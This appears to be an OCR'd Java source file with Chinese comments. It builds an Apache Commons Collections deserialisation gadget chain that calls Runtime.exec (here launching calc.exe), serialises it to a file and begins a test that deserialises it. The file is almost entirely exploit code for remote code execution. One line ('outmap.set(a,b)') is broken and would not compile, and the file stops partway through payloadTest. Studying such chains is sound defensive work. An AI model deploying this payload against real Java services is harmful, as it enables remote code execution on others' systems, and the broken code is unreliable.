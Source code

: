 ```
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class Demo {

    public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", null }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, null }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc.exe" }) };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "value");
        //AnnotationInvocationHandler 在1.8的jdk不能用
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        outmap.set(a,b);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        //启用和禁用访问安全检查的开关，值为 true，则表示反射的对象在使用时应该取消java的访问检查。
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        generatePayload(Reverse_Payload(),"obj");
        payloadTest("C:\\Users\\varas\\IdeaProjects\\Demo\\obj");
    }
    public static void generatePayload(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
```